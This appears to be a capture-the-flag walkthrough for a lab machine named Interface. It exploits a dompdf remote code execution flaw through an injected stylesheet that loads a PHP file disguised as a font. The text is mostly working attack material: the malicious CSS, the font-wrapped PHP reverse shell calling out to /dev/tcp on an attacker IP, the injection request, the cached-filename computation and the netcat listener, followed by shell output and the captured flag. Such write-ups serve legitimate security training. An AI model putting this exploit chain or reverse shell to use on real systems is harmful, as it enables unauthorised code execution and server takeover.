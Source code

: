 1) I  found this PoC of an exploit: [https://github.com/positive-security/dompdf-rce](https://github.com/positive-security/dompdf-rce).

2) I create a file that I call style.css with this content:
```css
@font-face {  
font-family:'exploitfont';  
src:url('http://10.10.14.230:8000/exploit_font.php');  
font-weight:'normal';  
font-style:'normal';  
}
```

3) Then  I create another file that I call exploit_font.php with this content:
```php
^@^A^@^@^@
^@�^@^C^@ dum1^@^@^@^@^@^@^@�^@^@^@^Bcmap^@^L^@`^@^@^@�^@^@^@,glyf5sc�^@^@^@�^@^@^@^Thead^G�Q6^@^@^@�^@^@^@6hhea^@�^C�^@^@^A(^@^@^@$hmtx^DD^@
^@^@^AL^@^@^@^Hloca^@
^@^@^@^@^AT^@^@^@^Fmaxp^@^D^@^C^@^@^A\^@^@^@ name^@D^P�^@^@^A|^@^@^@8dum2^@^@^@^@^@^@^A�^@^@^@^B^@^@^@^@^@^@^@^A^@^C^@^A^@^@^@^L^@^D^@ ^@^@^@^D^@^D^@^A^@^@^@-��^@^@^@-����^@^A^@^@^@^@^@^A^@
^@^@^@:^@8^@^B^@^@3#5:08^@^A^@^@^@^A^@^@^W��^V_^O<�^@^K^@@^@^@^@^@�^U8^F^@^@^@^@�&۽^@
^@^@^@:^@8^@^@^@^F^@^A^@^@^@^@^@^@^@^A^@^@^@L��^@^R^D^@^@
^@
^@:^@^A^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^B^D^@^@^@^@D^@
^@^@^@^@^@
^@^@^@^A^@^@^@^B^@^C^@^A^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^D^@6^@^C^@^A^D       ^@^A^@^B^@^@^@^C^@^A^D  ^@^B^@^B^@^@^@^C^@^A^D  ^@^C^@^B^@^@^@^C^@^A^D  ^@^D^@^B^@^@^@s^@^@^@^@
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.230/1234 0>&1'");

```

4) I start a webserver with python3:
```
python3 -m http.server 8000
```

5) I send the request to inject css file:

--> Request:
```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 76

{"html":"<link rel=stylesheet href='http://10.10.14.230:8000/style.css'>"}
```

--> Response:
```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 23 Feb 2023 17:59:55 GMT
Content-Type: application/pdf
Content-Length: 919
Connection: close
X-Local-Cache: hit
Cache-Control: public
Content-Transfer-Encoding: Binary
Content-Disposition: attachment; filename=export.pdf


%PDF-1.7
1 0 obj
<< /Type /Catalog
/Outlines 2 0 R
/Pages 3 0 R >>
endobj
2 0 obj
<< /Type /Outlines /Count 0 >>
endobj
3 0 obj
<< /Type /Pages
/Kids [6 0 R
]
/Count 1
/Resources <<
/ProcSet 4 0 R
>>
/MediaBox [0.000 0.000 419.530 595.280]
 >>
endobj
4 0 obj
[/PDF /Text ]
endobj
5 0 obj
<<
/Producer (þÿ
```

6) Now I have need to get the file name of the file, I know:
```
name = `exploitfont`
font = `normal`
```

7) I must know even the md5(Hash):
```
┌──(kali㉿kali)-[~]
└─$ echo -n "http://10.10.14.230:8000/exploit_font.php" | md5sum
a1f8059d21c6a5509619894ebaa507e8  -

```

8) I put all together:
```
exploitfont_normal_a1f8059d21c6a5509619894ebaa507e8.php
```

9) I open the listening port:
```
┌──(kali㉿kali)-[~/Interface]
└─$ nc -lnvp 1234        
listening on [any] 1234 ...

```

10) I visit this directory (http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_a1f8059d21c6a5509619894ebaa507e8) to spawn the shell:
```
┌──(kali㉿kali)-[~/Interface]
└─$ nc -lnvp 1234        
listening on [any] 1234 ...
connect to [10.10.14.230] from (UNKNOWN) [10.10.11.200] 50794
bash: cannot set terminal process group (1299): Inappropriate ioctl for device
bash: no job control in this shell
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ cd /home/dev
cd /home/dev
www-data@interface:/home/dev$ ls -all
ls -all
total 32
drwxr-xr-x 4 dev  dev  4096 Jan 16 09:49 .
drwxr-xr-x 3 root root 4096 Jan 16 09:49 ..
lrwxrwxrwx 1 root root    9 Jan 10 12:56 .bash_history -> /dev/null
-rw-r--r-- 1 dev  dev   220 Jan 10 12:55 .bash_logout
-rw-r--r-- 1 dev  dev  3771 Jan 10 12:55 .bashrc
drwx------ 2 dev  dev  4096 Jan 16 09:49 .cache
drwx------ 3 dev  dev  4096 Jan 16 09:49 .gnupg
-rw-r--r-- 1 dev  dev   807 Jan 10 12:55 .profile
-rw-r--r-- 1 root dev    33 Feb 24 05:09 user.txt
www-data@interface:/home/dev$ whoami
whoami
www-data
www-data@interface:/home/dev$ cat user.txt
cat user.txt
ed25a0fee79a8bce596d413a5841b9dc
www-data@interface:/home/dev$ 
```